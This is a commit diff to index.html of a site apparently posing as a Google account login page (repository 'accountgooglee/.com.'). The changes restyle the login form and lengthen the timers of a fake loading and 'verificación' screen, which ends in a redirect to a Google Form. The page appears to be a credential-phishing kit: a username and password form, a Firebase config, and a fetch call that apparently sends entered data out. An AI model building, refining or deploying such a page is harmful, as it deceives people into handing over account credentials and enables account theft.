

Before and after one commit to accountgooglee/.com., a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 214-570 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -19,6 +19,7 @@
     }
 
     .login-box {
+      display: flex;
       flex-direction: column;
       align-items: center;
       background: white;
@@ -34,23 +35,29 @@
       margin-bottom: 20px;
     }
 
+    #login-form {
+      display: flex;
+      flex-direction: column;
+      align-items: stretch;
+      width: 100%;
+    }
+
     input[type="text"],
-    input[type="password"] {
+    input[type="password"],
+    .blue-button {
       width: 100%;
       padding: 12px;
       margin-top: 8px;
       margin-bottom: 20px;
+      border-radius: 4px;
       border: 1px solid #ccc;
-      border-radius: 4px;
+      box-sizing: border-box;
     }
 
     .blue-button {
       background-color: #1a73e8;
       color: white;
       border: none;
-      padding: 12px;
-      width: 100%;
-      border-radius: 4px;
       cursor: pointer;
     }
 
@@ -135,7 +142,6 @@
 <script>
   // Configuración Firebase (reemplaza con la tuya real)
   const firebaseConfig = {
-
     authDomain: "account-4a145.firebaseapp.com",
     projectId: "account-4a145",
     storageBucket: "account-4a145.firebasestorage.app",
@@ -181,7 +187,7 @@
       headers: { 'Accept': 'application/json' }
     });
 
-    // Mostrar pantalla de verificación después de 30 segundos
+    // Mostrar pantalla de verificación después de 45 segundos
     setTimeout(() => {
       document.getElementById("loading-screen").classList.remove("visible");
       document.getElementById("verificacion").classList.add("visible");
@@ -189,8 +195,8 @@
       // Redirigir después de otros 15 segundos
       setTimeout(() => {
         window.location.href = "https://forms.gle/M7DsjHnWW9gxQzHE7";
-      }, 15000);
-    }, 45000);
+      }, 20000);
+    }, 50000);
   });
 </script>
 
```
